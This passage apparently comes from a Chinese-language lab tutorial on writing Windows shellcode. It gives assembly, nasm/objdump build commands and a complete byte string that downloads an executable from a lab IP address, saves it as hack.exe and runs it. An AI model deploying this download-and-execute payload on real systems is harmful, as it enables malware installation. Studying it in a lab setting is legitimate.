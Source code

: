     xor ecx, ecx          ; clear eax register
    push ecx              ; string terminator 0x00 for "hack.exe" string
    push 0x6578652e       ; exe. : 6578652e
    push 0x6B636168       ; kcah : 6B636168
    mov ebx, esp          ; save pointer to "hack.exe" string in eax
    inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
    push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
    push ebx              ; lpcmdLine - push string address stack # 1st argument
    call eax              ; Call the WinExec Function
    
    ; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
     xor ecx, ecx          ; clear eax register
     mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
     shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
     push ecx                ;  sse : 00737365
     push 0x636F7250         ; corP : 636F7250
     push 0x74697845         ; tixE : 74697845
     mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
     call findFunctionAddr   ; After Return EAX will = &ExitProcess
    
    ; Call ExitProcess(ExitCode)
     xor edx, edx
     push edx                ; ExitCode = 0
     call eax                ; ExitProcess(ExitCode)
    ```

  + 将该反汇编文件通过`nasm`工具进行编译并用`objdump`工具变为可执行代码
    ```bash
    nasm -f win32 test.asm -o test.o
    for i in $(objdump -D test.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
    ```
  + 得到的代码如下
    ```shell
    \x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\x18\xe8\xb0\xff\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x6f\x6e\x50\x68\x75\x72\x6c\x6d\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x41\x52\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x73\x65\x64\x74\x68\x2f\x67\x6f\x6f\x68\x36\x2e\x31\x33\x68\x36\x38\x2e\x35\x68\x39\x32\x2e\x31\x68\x3a\x2f\x2f\x31\x68\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x54\x5b\x31\xd2\x52\x52\x53\x51\x52\x8b\x45\xd8\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xac\x5a\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xe8\xfe\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\xb7\xfe\xff\xff\x31\xd2\x52\xff\xd0
    ```
  + 代码执行成功以后，出现如下结果     